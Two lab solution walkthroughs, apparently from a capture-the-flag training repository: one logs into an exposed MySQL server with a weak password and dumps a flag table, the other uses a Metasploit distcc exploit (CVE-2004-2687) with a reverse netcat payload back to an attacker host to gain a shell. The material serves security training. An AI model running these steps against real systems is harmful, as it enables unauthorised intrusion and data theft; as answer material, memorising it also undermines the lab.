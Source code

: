## MySQL Weak Password Walkthrough

1.  **Enumeration:** A port scan (`nmap <TARGET_IP>`) reveals that port 3306 (MySQL) is open to the network.
2.  **Attack:** An attacker would typically attempt to brute-force common usernames and passwords. In this lab, we know the user is `student` and the password is weak. We can connect directly.
    ```bash
    # Note: The --skip-ssl flag may be needed depending on the client version
    mysql -h <TARGET_IP> -u student -p --skip-ssl
    ```
3.  **Authentication:** When prompted, enter the weak password: `password123`.
4.  **Looting:** Once connected to the database, enumerate its contents to find the flag.
    ```sql
    -- Show all available databases
    show databases;

    -- Switch to the interesting database
    use secrets;

    -- Show tables in the current database
    show tables;

    -- Dump the contents of the table to find the flag
    select * from flag_table;
    ```

***

### `solutions/distcc_rce.md`

```markdown
## Distcc Remote Code Execution Walkthrough

1.  **Enumeration:** A full port scan (`nmap -p- <TARGET_IP>`) reveals that port 3632 is open. A version scan (`nmap -sV -p 3632 <TARGET_IP>`) identifies the service as `distcc`.
2.  **Vulnerability Identification:** A quick search for `distcc exploit` reveals a well-known Remote Code Execution vulnerability (CVE-2004-2687) in older versions when run with the `--allow` flag.
3.  **Exploitation:** Metasploit has a reliable module for this exploit.
    * Start Metasploit: `msfconsole`
    * Use the following commands:
        ```
        use exploit/unix/misc/distcc_exec
        set RHOSTS <TARGET_IP>
        set payload cmd/unix/reverse_netcat
        set LHOST <ATTACKER_IP>
        exploit
        ```
4.  **Result:** A reverse shell session will open, giving you command-line access to the victim machine.
